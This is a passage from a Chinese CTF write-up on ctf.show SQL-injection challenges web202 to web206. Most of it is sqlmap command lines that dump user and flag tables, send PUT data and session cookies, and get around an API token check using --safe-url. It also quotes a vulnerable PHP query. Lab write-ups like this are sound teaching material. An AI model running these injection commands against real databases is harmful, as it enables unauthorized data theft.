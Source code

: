 ```python
python2 sqlmap.py -u "http://e815b8f2-5a11-4998-8cb9-aa806fb67550.chall.ctf.show/api/" --data="id=1" --referer="ctf.show" --dbs --batch

python2 sqlmap.py -u "http://e815b8f2-5a11-4998-8cb9-aa806fb67550.chall.ctf.show/api/" --data="id=1" --referer="ctf.show" -D ctfshow_web -T ctfshow_user --dump --batch
```

## web203--put参数

> 使用--method 调整sqlmap的请求方式

```python
python2 sqlmap.py -u "http://ca0824d5-f358-4494-b5ee-0f0ad93fdf39.chall.ctf.show/api/index.php" --method=PUT --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" --dbms=mysql -D ctfshow_web -T ctfshow_user --dump --batch
```

## web204~--cookie参数

> 使用--cookie 提交cookie数据

```python
python2 sqlmap.py -u "http://c1338d3e-26fa-49c9-b2aa-583f5fe1418f.chall.ctf.show/api/index.php" --method=PUT --data="id=1" --referer=ctf.show  --dbms=mysql dbs=ctfshow_web -T ctfshow_user -C pass --dump --headers="Content-Type: text/plain" --cookie="PHPSESSID=beu7iuepljde5gf9frge7542of;" --batch
```

## web205~api鉴权

> api调用需要鉴权

[![sOn0js.md.png](https://s3.ax1x.com/2021/01/25/sOn0js.md.png)](https://imgchr.com/i/sOn0js)

* --safe-url 设置在测试目标地址前访问的安全链接
*  --safe-freq 设置两次注入测试前访问安全链接的次数

不访问的话

```
{"code":0,"msg":"api鉴权失败","count":1,"data":[[]]}
```



```python
python2 sqlmap.py -u "http://ae19532d-121c-4048-9902-3f93f0028c40.chall.ctf.show/api/index.php" --method=PUT --data="id=1" --referer=ctf.show --dbms=mysql dbs=ctfshow_web -T ctfshow_flax -C flagx --dump  --headers="Content-Type: text/plain" --safe-url="http://ae19532d-121c-4048-9902-3f93f0028c40.chall.ctf.show/api/getToken.php" --safe-freq=1 --batch
```

## web206

>  sql需要闭合
>
> ```
> $sql = "select id,username,pass from ctfshow_user where id = ('".$id."') limit 0,1;";
> ```
